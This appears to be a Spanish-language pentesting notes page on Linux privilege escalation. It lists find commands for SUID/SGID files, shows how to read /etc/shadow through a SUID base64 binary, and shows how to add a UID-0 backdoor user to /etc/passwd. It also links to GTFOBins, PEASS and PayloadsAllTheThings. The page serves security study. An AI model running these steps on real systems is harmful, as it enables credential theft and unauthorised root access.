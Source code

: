 # Tools and Methodology PrivEsc

## Methodology

.

{% code overflow="wrap" %}
```bash
# para obtener todos los SUID
find / -perm -4000 2>/dev/null

# para obtener todos los SGID/"GUID"
find / -perm -2000 2>/dev/null

# encuentra todos los sticky bits
find / -perm -1000 2>/dev/null

# Buscar en GTFOBins si alguno de los programas listados anteriormente tiene SUID

# Seguir los pasos y explotar

Otro:
# Enumerar los archivos que tienen configurados los bits SUID o SGID
find / -type f -perm -04000 -ls 2>/dev/null
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Ejemplos de aplicaciones:

* Base64

{% code overflow="wrap" %}
```bash
LFILE=/etc/shadow  #Ponemos en variable LFILE el archivo con priv que queremos leer
/usr/bin/base64 "$LFILE" | base64 --decode #Ejecutamos lectura con base64 que tiene SUID
```
{% endcode %}

* Nano

{% code overflow="wrap" %}
```bash
# Generar un valor hash de la contraseña que queremos que tenga el nuevo usuario con openssl
openssl passwd -a salt <algo> <password>
# Luego agregaremos esta contraseña con un nombre de usuario al /etc/passwd archivo abriendo con sudo porque tiene el bit SUID
sudo nano /etc/passwd
hacker:<hash>:0:0:root:/root:/bin/bash
#cambiar a ese usuario
su hacker
```
{% endcode %}

![](<../.gitbook/assets/image (11).png>)

## Tools

GTFOBins: a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

{% embed url="https://gtfobins.github.io/" %}
GTFOBins link
{% endembed %}

LinPEAS & WinPEAS:&#x20;

{% embed url="https://github.com/carlospolop/PEASS-ng" %}

LinuxPrivEsc

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md" %}

WindowsPrivEsc

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}
